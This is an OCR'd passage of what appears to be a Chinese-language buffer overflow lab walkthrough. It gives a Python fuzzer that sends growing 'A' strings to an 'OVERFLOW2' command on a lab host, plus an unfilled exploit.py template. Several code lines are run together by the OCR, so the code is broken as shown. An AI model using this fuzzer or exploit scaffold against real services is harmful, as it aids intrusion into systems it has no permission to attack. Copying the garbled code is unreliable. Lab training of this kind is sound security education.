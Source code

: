 # Fuzzer.py

```
import socket, time, sys
ip = "192.168.43.57";
port = 1337
timeout = 5
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100
for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW2 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

同时复制 **exploit.py** 代码

```
import socketip = "192.168.43.57"
port = 1337prefix = "OVERFLOW2 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

点击红色的播放按钮，并开始对目标 IP fuzzer . py

![](img/09a8de8dd89e571a6b45c03af626570c.png)

